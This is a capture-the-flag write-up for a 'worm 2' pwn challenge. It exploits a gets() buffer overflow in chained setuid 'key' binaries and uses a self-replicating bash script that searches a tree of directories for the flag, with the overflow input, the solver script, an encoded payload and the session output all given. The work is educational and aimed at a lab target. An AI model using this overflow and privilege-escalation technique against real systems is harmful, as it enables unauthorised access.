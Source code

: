 # worm 2

> Note: The original challenge had an unintended solution ?, so this is the  
> patched version

Write a worm and pwn my system :)

```  
nc 35.188.197.160 1002  
```

Attachments: `worm2.zip`

## Overview

After connecting the server, we this:

```  
$ nc 35.188.197.160 1002  
Send the output of: hashcash -mb26 5qB3LV9O/rHt8dQ9  
1:26:210613:5qb3lv9o/rht8dq9::obR0I0xtrnii7Z7N:3fgTk  
warning: commands will be executed using /bin/sh  
job 153 at Sun Jun 13 18:27:00 2021  
Creating network "64d81a00b78f2c0d0e179a8992e2057b_default" with the default
driver  
Creating 64d81a00b78f2c0d0e179a8992e2057b_app_run ...  
Creating 64d81a00b78f2c0d0e179a8992e2057b_app_run ... done  
Adding group `user1' (GID 1000) ...  
Done.  
Adding group `user2' (GID 1001) ...  
Done.  
Adding group `user3' (GID 1002) ...  
Done.  
Adding group `user4' (GID 1003) ...  
Done.  
Adding group `user5' (GID 1004) ...  
Done.  
Adding group `user6' (GID 1005) ...  
Done.  
Adding group `user7' (GID 1006) ...  
Done.  
Adding group `user8' (GID 1007) ...  
Done.  
Adding group `user9' (GID 1008) ...  
Done.  
Adding group `user10' (GID 1009) ...  
Done.  
[*] Compiling key 2 ...  
[*] Done  
[*] Compiling key 3 ...  
[*] Done  
[*] Compiling key 4 ...  
[*] Done  
[*] Compiling key 5 ...  
[*] Done  
[*] Compiling key 6 ...  
[*] Done  
[*] Compiling key 7 ...  
[*] Done  
[*] Compiling key 8 ...  
[*] Done  
[*] Compiling key 9 ...  
[*] Done  
[*] Compiling key 10 ...  
[*] Done  
[*] Building tree with 1023 nodes ...  
[*] Planting flag in a random leaf node ...  
[+] Ready  
[*] You now have a shell!  
[*] Please enter your exploit below (max 512 chars):  
```

On the remote server, we only get to execute one command non-interactively.
You  
can set up the challenge locally to test though:

We start off as `user1` in the root directory.  
If we `cd` to `/room0`, we see:  
```sh  
user1@14f2437dee35:/room0$ ls -lah  
total 36K  
dr-xr-x--- 4 user1 user2 4.0K May 15 01:26 .  
drwxr-xr-x 1 root  root  4.0K May 15 01:26 ..  
-r-sr-x--- 1 user2 user1  17K May 15 01:26 key  
dr-xr-x--- 4 user2 user3 4.0K May 15 01:26 room0  
dr-xr-x--- 4 user2 user3 4.0K May 15 01:26 room1  
```

If we try `cd room0` or `cd room1`, we get `Permission denied`. Luckily, the  
`key` executable is owned by `user2` and has the `setuid` bit set. Running  
`./key`, we get:

```sh  
user1@14f2437dee35:/room0$ ./key  
Name: idk  
Unauthorized :(  
```

Here's the relevant code from `key.c`:  
```c  
typedef struct {  
   char name[32];  
   char password[32];  
} User;

void auth() {  
   printf("Authenticating ...\n");  
   assert(setuid(ID) == 0);  
   assert(setgid(ID) == 0);  
   system("/bin/bash");  
}

int main() {  
   User user;

   printf("Name: ");  
   gets(user.name);

   if (strncmp(user.password, "p4ssw0rd", 8) == 0) {  
       auth();  
   } else {  
       printf("Unauthorized :(\n");  
   }  
return 0;  
}  
```

There's clearly a BOF at `gets(user.name)`, so we can type in 32 characters
and  
overflow into `user.password` to set it to `p4ssw0rd`.

```sh  
user1@14f2437dee35:/room0$ ./key  
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp4ssw0rd  
Authenticating ...  
user2@14f2437dee35:/room0$ id  
uid=1001(user2) gid=1001(user2) groups=1001(user2),1000(user1)  
```

Now we're `user2` and can `cd` to `room0` or `room1`. In `/room0/room1`, we
see  
nearly the exact same thing:  
```sh  
user2@14f2437dee35:/room0/room1$ ls -lah  
total 36K  
dr-xr-x--- 4 user2 user3 4.0K May 15 01:26 .  
dr-xr-x--- 4 user1 user2 4.0K May 15 01:26 ..  
-r-sr-x--- 1 user3 user2  17K May 15 01:26 key  
dr-xr-x--- 4 user3 user4 4.0K May 15 01:26 room0  
dr-xr-x--- 4 user3 user4 4.0K May 15 01:26 room1  
```

Again if we try to `cd room0` or `cd room1`, we get `Permission denied`, so we  
have to use the `key`.

We know that `MAX_DEPTH = 10` so directory structure forms a full binary tree,  
and the flag is located in a random leaf node.  
```python  
def plant_flag():  
   os.chdir("room0")  
   while len(os.listdir()) > 0:  
       os.chdir(f"room{random.randint(0, 1)}")

   os.rename("/flag.txt", "./flag.txt")  
```

Finally, our entire exploit must be less than 512 characters (external  
networking is disabled so we can't download any additional payloads):  
```bash  
echo "[*] You now have a shell!"  
echo "[*] Please enter your exploit below (max 512 chars):"  
read -n 512 cmd  
exec su user1 -c "$cmd" 0<&-  
```

## Solution

Do depth-first search with a self-replicating exploit:  
```bash  
echo -n . 1>&2

if [ -f "flag.txt" ]; then  
   cat flag.txt 1>&2  
fi

if [ -f "key" ]; then  
   payload=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp4ssw0rd  
   (echo $payload && echo "cd room0 && exec bash /tmp/solve.sh") | ./key > /dev/null  
   (echo $payload && echo "cd room1 && exec bash /tmp/solve.sh") | ./key > /dev/null  
fi  
```

Output:  
```sh  
$ python3 client.py  
[x] Opening connection to localhost on port 1024  
[x] Opening connection to localhost on port 1024: Trying 127.0.0.1  
[+] Opening connection to localhost on port 1024: Done  
[*] Solving PoW ...  
[DEBUG] Received 0x34 bytes:  
   b'Send the output of: hashcash -mb26 ehmCMcCi7SHUqWes\n'  
[+] Solved PoW  
[DEBUG] Sent 0x35 bytes:  
   b'1:26:210515:ehmcmcci7shuqwes::FmB8btNpTIqC54om:2Bd/y\n'  
[DEBUG] Sent 0x150 bytes:  
   b'cd /tmp && echo -n H4sIAAwmn2AC/5WPTQrCMBSE9z3FEKTookkr7sSC5xAXMT+mmCalibUFD2+tCrpSZznvfcOMEsYjc6AoynSZJJXGDpkG0ZYfaewjwX6NaJRLMErwiNflQejqDTqp4fO/4YP1XG62X9SsQrjkrZygubqXmj1ZpCkmgwiJ1vs6n5xeCRx4MGCxbljwtlM0GLLAFZSNPVCCSdUxd7b2l9Ti/9Rx+g33VaPsPwEAAA== | base64 -d > solve.sh.gz && gzip -d solve.sh.gz && cd /room0 && bash /tmp/solve.sh\n'  
[*] Switching to interactive mode  
warning: commands will be executed using /bin/sh  
job 20 at Sat May 15 01:44:00 2021  
Creating network "9a97ccccc44d5152637380a682ac72ea_default" with the default
driver  
Creating 9a97ccccc44d5152637380a682ac72ea_app_run ...  
Creating 9a97ccccc44d5152637380a682ac72ea_app_run ... done  
Adding group `user1' (GID 1000) ...  
Done.  
Adding group `user2' (GID 1001) ...  
Done.  
Adding group `user3' (GID 1002) ...  
Done.  
Adding group `user4' (GID 1003) ...  
Done.  
Adding group `user5' (GID 1004) ...  
Done.  
Adding group `user6' (GID 1005) ...  
Done.  
Adding group `user7' (GID 1006) ...  
Done.  
Adding group `user8' (GID 1007) ...  
Done.  
Adding group `user9' (GID 1008) ...  
Done.  
Adding group `user10' (GID 1009) ...  
Done.  
[*] Compiling key 2 ...  
[*] Done  
[*] Compiling key 3 ...  
[*] Done  
[*] Compiling key 4 ...  
[*] Done  
[*] Compiling key 5 ...  
[*] Done  
[*] Compiling key 6 ...  
[*] Done  
[*] Compiling key 7 ...  
[*] Done  
[*] Compiling key 8 ...  
[*] Done  
[*] Compiling key 9 ...  
[*] Done  
[*] Compiling key 10 ...  
[*] Done  
[*] Building tree with 1023 nodes ...  
[*] Planting flag in a random leaf node ...  
[+] Ready  
[*] You now have a shell!  
[*] Please enter your exploit below (max 512 chars):  
........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................CCC{I_c4nt_b3l1ev3_1_f0rg0t_t0_cl0s3_std1n}  
.......................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................[*]
Got EOF while reading in interactive  
```  

Original writeup
(https://github.com/qxxxb/ctf_challenges/blob/master/2021/ccc/pwn/worm2/solve).